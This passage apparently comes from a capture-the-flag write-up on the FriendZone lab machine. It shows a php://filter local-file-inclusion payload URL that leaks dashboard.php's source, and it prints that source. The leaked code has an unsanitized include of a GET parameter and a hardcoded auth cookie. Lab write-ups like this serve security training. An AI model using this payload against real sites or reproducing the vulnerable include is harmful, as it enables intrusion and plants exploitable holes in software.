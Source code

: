 I was trying to read the `cerds.txt` from the `/etc/general` share however I was not able to read it. Check out why in the [`Why the creds.txt was not readable in the browser?`](#`Why%20the%20creds.txt%20was%20not%20readable%20in%20the%20browser?`) Sectoin.

Let's try to grab the PHP code for the `dashboard.php` using the PHP Filter.
`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=dashboard`
![](Friendzone_web12.png)
Copy the Base64 from the bottom and save it to file.
```
# base64 -d dashboard                              
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center><img src='images/$image'></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```
